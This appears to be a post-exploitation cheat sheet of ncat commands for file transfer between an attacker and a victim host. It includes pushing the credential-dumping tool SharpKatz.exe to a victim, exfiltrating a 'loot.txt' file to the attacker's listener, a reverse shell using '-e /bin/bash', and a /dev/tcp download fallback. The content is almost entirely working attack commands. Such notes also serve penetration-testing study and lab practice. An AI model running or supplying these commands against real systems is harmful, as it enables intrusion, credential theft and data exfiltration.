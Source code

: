 ### Send File → Victim Connects (Attacker Listens)
#### Attacker (Listen & Send):

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Victim (Connect & Receive):

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
### Receive File → Victim Listens (Attacker Connects)

#### Victim (Listen & Receive):

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```
#### Attacker (Send):

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
### Upload from Victim → Attacker Receives
#### Attacker (Listen & Save):

```bash
sudo ncat -l -p 9001 --recv-only > loot.txt
```

#### Victim (Send):

```bash
ncat --send-only 192.168.49.128 9001 < loot.txt
```
### Full-Duplex Shell (Bonus Use Case)

```bash
# Attacker: listen for shell
ncat -lvp 9001

# Victim: reverse shell
ncat 192.168.49.128 9001 -e /bin/bash
```
#### Bash Fallback: `/dev/tcp` (if no nc/ncat)

#### Attacker:

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Victim:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #Netcat
